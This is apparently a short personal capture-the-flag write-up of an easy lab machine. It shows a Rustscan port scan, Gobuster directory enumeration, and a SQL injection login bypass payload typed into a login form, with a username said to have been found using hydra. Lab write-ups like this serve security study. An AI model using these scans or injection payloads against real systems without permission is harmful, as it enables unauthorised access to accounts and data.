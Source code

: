 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Root it.

# Recon
## Rustscan

Let's use [Rustscan](../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) to scan the open ports on the machine :

```
──(mdn0x㉿mdn0xKali)-[~]
└─$ rustscan -a 10.10.142.189 

         Open 10.10.142.189:22
         Open 10.10.142.189:80

```

# Enumeration
## Gobuster

We can now enumerate with [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) :

```
──(mdn0x㉿mdn0xKali)-[~]
└─$ gobuster dir -u 10.10.142.189 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

/manual               (Status: 301) [Size: 315] [--> http://10.10.142.189/manual/]

```

# Exploit

![a05d1ee2b423e3bc978f0e6e93839d28.png](../../2%20-%20Resources/Others/Flameshots/a05d1ee2b423e3bc978f0e6e93839d28.png)

We have a login page, let's try [SQL Injection](../../3%20-%20Tags/Hacking%20Concepts/SQL%20Injection.md) with a valid username (found with hydra) : `username: martin' AND '1'='1' -- - ; passw :asdf` :

<img src="../../2%20-%20Resources/Others/Flameshots/d11bdce304c0c86f761e2ac0e0e0033c.png" alt="d11bdce304c0c86f761e2ac0e0e0033c.png" width="583" height="533">

And we have the [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) .

Pwned !!
